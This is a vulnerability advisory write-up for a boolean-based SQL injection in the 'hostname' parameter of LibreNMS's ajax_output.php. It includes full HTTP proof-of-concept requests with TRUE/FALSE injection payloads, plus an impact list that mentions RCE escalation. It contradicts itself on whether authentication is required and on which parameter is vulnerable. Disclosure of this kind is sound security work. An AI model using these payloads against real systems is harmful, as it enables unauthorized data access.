


## CVE-2025-65093: SQL Injection (Boolean-Based) Vulnerability in `hostname` Parameter on `ajax_output.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-65093*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was discovered in the <code>hostname</code> parameter of the <code>ajax_output.php</code> endpoint. This issue allows any unauthenticated attacker to inject arbitrary SQL queries, potentially leading to unauthorized data access or further exploitation depending on database configuration.</p>

## Details

<p style="text-align: justify;">The application fails to properly sanitize user-supplied input in the <code>hostname</code> parameter. As a result, specially crafted SQL payloads are interpreted directly by the backend database.</p>

## PoC

Vulnerable Endpoint: `ajax_output.php`

Parameter: `id`

<p style="text-align: justify;">
  <ul>
    <li><b>Authenticate with an administrator account.</b></br>
The discovery endpoint <code>/ajax_output.php</code> is accessible only to users with admin-level privileges.</li>
    <li>Access the following URL with the payload that evaluates to <code>TRUE:</code></li>
  </ul>
</p>

```terminal
GET /ajax_output.php?id=capture&format=text&type=discovery&hostname=10.0.5.4'+AND+1=1+AND+'1'='1 HTTP/1.1
Host: 10.0.5.5:8000
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.0.5.5:8000/device/3/capture
Cookie: laravel_session=[ADMIN_SESSION_COOKIE]
Priority: u=0
```

<p style="text-align: justify;">
  <ul>
    <li>Observe that the system returns the expected data and triggers the discovery process.</li>
  </ul>
</p>



<p style="text-align: justify;">
  <ul>
    <li>Now repeat the request with a <code>FALSE</code> condition:</li>
  </ul>
</p>

```terminal
GET /ajax_output.php?id=capture&format=text&type=discovery&hostname=10.0.5.4'+AND+1=2+AND+'1'='1 HTTP/1.1
Host: 10.0.5.5:8000
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.0.5.5:8000/device/3/capture
Cookie: laravel_session=[SESSION COOKIE]
Priority: u=0
```

<p style="text-align: justify;">
  <ul>
    <li>Observe that the response is altered: no device is found, and no discovery is triggered.</li>
  </ul>
</p>



> The difference in output confirms that the injected Boolean logic is being executed by the database.

## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data (e.g., users, passwords, logs).</li>
    <li>Database enumeration (schemas, tables, users, versions).</li>
    <li>Escalation to RCE depending on DB configuration (e.g., xp_cmdshell, UDFs).</li>
    <li>Full compromise of the application if chained with other vulnerabilities.</li>
    <li>This issue affects all users and environments, as it does not require authentication and is reachable via a public endpoint.</li>
  </ul>
</p>

## Reference

***[https://github.com/librenms/librenms/security/advisories/GHSA-6pmj-xjxp-p8g9](https://github.com/librenms/librenms/security/advisories/GHSA-6pmj-xjxp-p8g9)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***